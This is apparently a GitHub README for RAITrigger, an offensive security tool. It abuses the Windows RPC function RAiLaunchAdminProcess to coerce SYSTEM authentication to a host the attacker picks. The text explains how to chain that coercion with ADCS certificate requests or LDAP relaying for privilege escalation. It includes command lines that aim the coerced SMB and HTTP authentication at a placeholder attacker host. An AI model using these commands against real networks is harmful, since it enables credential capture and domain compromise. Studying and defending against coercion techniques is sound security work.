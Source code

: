 # RAITrigger

The RPC-function `RAiLaunchAdminProcess` from the `appinfo.dll` library was in the past already used for [UAC bypass](https://googleprojectzero.blogspot.com/2019/12/) purposes.

It turns out, that this function can be called from any low privileged user (not to spawn a process) but to trigger SYSTEM authentication to an arbitrary location. This is because `CreateFileW` is called as SYSTEM to the first input parameter's location:

<br>
<div align="center">
    <img src="https://github.com/rtecCyberSec/RAITrigger/blob/main/SystemTrigger.png?raw=true" width="500">
</div>
<br>

As the low privileged user is still impersonated, this cannot be used as Potato trigger to elevate Privileges from `SEImpersonate` to SYSTEM:

<br>
<div align="center">
    <img src="https://github.com/rtecCyberSec/RAITrigger/blob/Impersonation.png?raw=true" width="500">
</div>
<br>

But it can be used to request a computer account certificate against ADCS when web enrollment is enabled with the incoming SMB authentication. Or it can be used for LPE with relaying to LDAP - when LDAP Signing is not enabled.

To Trigger SMB authentication:
```bash
[*] RAITrigger.exe \\attackerip\test\test.exe
```

To Trigger HTTP authentication (WebClient service needs to be enabled):
```bash
[*] RAITrigger.exe \\hostname@80\test\test.exe
```

HTTP authentication is only triggered to trusted intranet zone systems, so you will need to create an ADIDNS record for your Kali IP or be in the same subnet and use e.G. Responder. Never use the full FQDN, only the hostname.

Calling this function from remote (even with local administrator) leads to `rpc_access_denied` so this is no alternative to e.G. PetitPotam or similar:

<br>
<div align="center">
    <img src="https://github.com/rtecCyberSec/RAITrigger/blob/Denied.png?raw=true" width="500">
</div>
<br>
